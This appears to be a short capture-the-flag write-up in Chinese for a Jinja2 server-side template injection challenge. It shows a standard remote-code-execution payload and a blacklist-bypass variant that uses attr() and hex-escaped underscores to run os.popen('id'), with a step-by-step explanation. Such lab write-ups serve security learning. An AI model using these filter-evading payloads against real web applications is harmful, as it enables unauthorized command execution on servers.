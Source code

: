 ## SSTI2

![Screenshot_2025-05-21_00-50-47](https://github.com/user-attachments/assets/15e13182-7f12-4186-b131-0ddf72b10968)
![Screenshot_2025-05-21_00-51-13](https://github.com/user-attachments/assets/7922c3ba-d8f1-4fed-9fe0-c536d7eb2d94)

### 初步嘗試
我使用了典型的 Python Jinja2 RCE payload 嘗試取得系統資訊
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
伺服器回傳
![Screenshot_2025-05-21_00-56-51](https://github.com/user-attachments/assets/aced685a-8f45-4509-a72c-72fa44fd337d)

多次嘗試後發現
- 幾乎所有關鍵字或符號都被過濾：像是 `__`, `.`, `[`, `]`, `|` 等
- 常見的 Python 關鍵字如 `join`, `mro`, `base` 等也被攔截
表示伺服器存在黑名單機制
運用了 @SecGus 在 GitHub 上的技巧：
📌 參考資料：[PayloadsAllTheThings - SSTI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md)
關鍵概念是：
- 使用 `attr()` 函式來取代點記法；
- 用十六進位表示字串（例如 `__` → `\x5f\x5f`）來繞過字元過濾。
統整出
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
運作原理如下：

1. 透過 `request` 取得 `application` 對象；
2. 進入其 `__globals__`；
3. 從中找到 `__builtins__`，再透過 `__import__` 載入 `os` 模組；
4. 執行 `os.popen('id').read()`，執行系統命令並回傳輸出。

![Screenshot_2025-05-21_01-05-23](https://github.com/user-attachments/assets/49e44d53-f16d-4c45-8c46-bb7aeeb38524)

得到flag

